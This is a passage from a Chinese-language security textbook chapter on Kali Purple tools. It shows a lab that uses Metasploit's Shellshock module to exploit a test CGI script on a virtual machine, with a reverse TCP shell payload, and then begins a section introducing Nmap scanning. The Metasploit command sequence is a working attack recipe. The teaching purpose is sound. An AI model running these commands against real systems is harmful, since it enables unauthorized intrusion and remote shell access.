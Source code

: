 +   **echo " "**

+   **echo "你已经** **被攻陷了!"**:

![图 10.14 – 我们的第一个Metasploit攻击脚本](image/B21223_10_14.jpg)

图 10.14 – 我们的第一个Metasploit攻击脚本

在启动实际应用程序之前，让我们通过按 *Ctrl* + *X* 来保存我们的脚本并关闭文件，若希望保存文件，按 *Y*（希望你会保存；否则，你得重新输入一遍！）。现在，回到Kali Purple龙图标，鼠标悬停在**Exploitation Tools**区域上，然后从菜单中选择**Metasploit**。

你也可以直接从命令行调用Metasploit。但在此之前，你应通过输入**sudo msfdb init**来初始化Metasploit数据库。原因是我们不想让你错过任何有趣的部分。我们将立即在这里使用Metasploit发起一次攻击。

一旦数据库初始化完成，通过输入**msfconsole**启动程序。当你执行此命令时，由于它包含庞大的漏洞和有效载荷数据库，可能需要一些时间来加载，如*图 10.15*所示：

![图 10.15 – Metasploit 初始化](image/B21223_10_15.jpg)

图 10.15 – Metasploit 初始化

现在Metasploit已经加载完毕，我们将找到并使用Shellshock漏洞。输入**search shellshock**来列出所有与该漏洞相关的攻击方式，如*图 10.15*所示。接下来，我们需要告诉Metasploit我们打算使用其中的哪种漏洞利用方式。我们将使用Apache mod版本。为此，输入**use exploit/multi/http/apache_mod_cgi_bash_env_exec**。接下来，我们需要告诉Metasploit攻击者机器和目标机器的IP地址。输入**set RHOST <target IP address>**，并确保你有权限攻击这个目标。可以像我们一样使用虚拟机的IP地址。然后，输入**set LHOST <attacker IP address>**，在我们的案例中，这是本地主机的IP地址：

![图 10.16 – Metasploit 攻击准备](image/B21223_10_16.jpg)

图 10.16 – Metasploit 攻击准备

现在我们已经通过设置RHOST IP地址告诉Metasploit要攻击哪个设备，接下来我们仍然需要告诉它在哪里找到我们刚刚创建的脚本。输入**set targeturi /cgi-bin/metatest.sh**，并通过输入**set payload linux/x86/shell/reverse_tcp**来设置有效载荷。

你可以输入**show options**来查看已填写或可能仍需填写的所有字段。当你满意时，输入**exploit**开始攻击。终端将通知你攻击是否成功。

# 扫描器

到目前为止，我们在本章中介绍的每一个工具都有其独特的专长。在本节中，我们将介绍一组工具，它们虽然各具特色，但都属于同一个整体概念——扫描。扫描是网络攻击侦察阶段的一部分。在这个阶段，攻击者获取有用的信息，以缩小攻击向量并更好地规划攻击策略。不同的扫描器有不同的重点。我们将从极受欢迎、轻量级且经过时间考验的Nmap网络扫描器开始。

## Nmap

如果你去问专业的渗透测试人员列出他们最喜欢的五个工具，你会发现几乎没有人不把Nmap列在其中。Nmap是一款功能强大的网络探测工具，经常用于安全审计。它旨在发现计算机网络中的网络节点——主机——以及一些与网络相关的服务。在此过程中，它能够绘制出网络结构图，因此得名。

Nmap使用原始IP数据包来确定网络上哪些主机是可用的，哪些服务在这些主机上可用，包括应用程序名称和版本、主机正在运行的操作系统版本，以及正在使用的包过滤器和防火墙类型。这只是一个高层次的概述，旨在突出Nmap最常见的用途。它也可以用来检测许多其他特征。

下面是Nmap的一些关键功能：

+   **主机发现**：这是人们在想到Nmap时通常默认的可视化方式，尽管该工具远不止于此。主机发现的工作原理正如其名。Nmap发送数据包穿越网络，并分析响应，以确定哪些主机在网络上可用且处于活动状态。

+   **端口扫描**：Nmap可以扫描目标主机上的端口，识别开放的端口以及在这些端口上运行的服务。它支持多种端口扫描方式，包括SYN扫描、TCP连接扫描、UDP扫描等。这个高度的灵活性对于道德黑客/渗透测试人员以及恶意网络犯罪分子都至关重要，因为它有助于他们描绘出网络攻击面更清晰的全貌。

+   **服务版本检测**：除了广泛支持IPv6，Nmap还可以检测目标主机上运行的应用程序/服务版本。它还可以检测特定于网络的设备和服务。这一点非常重要，因为它有助于根据已知与特定版本相关的漏洞以及网络组成和整体布局来识别漏洞。
